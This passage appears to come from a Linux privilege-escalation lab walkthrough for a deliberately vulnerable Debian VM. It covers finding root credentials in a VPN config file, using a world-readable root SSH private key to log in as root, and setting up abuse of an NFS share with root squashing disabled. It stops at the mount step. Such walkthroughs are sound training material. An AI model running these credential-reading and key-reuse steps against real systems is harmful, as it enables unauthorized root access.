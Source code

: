 List the contents of the user's home directory:
```sh
ls /home/user
```

Note the presence of a myvpn.ovpn config file. View the contents of the file:
```sh
cat /home/user/myvpn.ovpn
```

The file should contain a reference to another location where the root user's credentials can be found. Switch to the root user, using the credentials.

# Passwords & Keys - SSH Keys
Sometimes users make backups of important files but fail to secure them with the correct permissions.

Look for hidden files & directories in the system root:
```sh
ls -la /
```

Note that there appears to be a hidden directory called .ssh. View the contents of the directory:
```sh
ls -l /.ssh
```

Note that there is a world-readable file called root_key. Further inspection of this file should indicate it is a private SSH key. The name of the file suggests it 
is for the root user.

Copy the key over to your Kali box (it's easier to just view the contents of the root_key file and copy/paste the key) and give it the correct permissions, otherwise 
your SSH client will refuse to use it:
```sh
chmod 600 root_key
```

Use the key to login to the Debian VM as the root account (note that due to the age of the box, some additional settings are required when using SSH):
```sh
ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@10.10.71.15
```

# NFS
Files created via NFS inherit the remote user's ID. If the user is root, and **root squashing** is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:
```sh
cat /etc/exports
```
Note that the /tmp share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:
```sh
sudo su
```
Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):
```sh
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
```
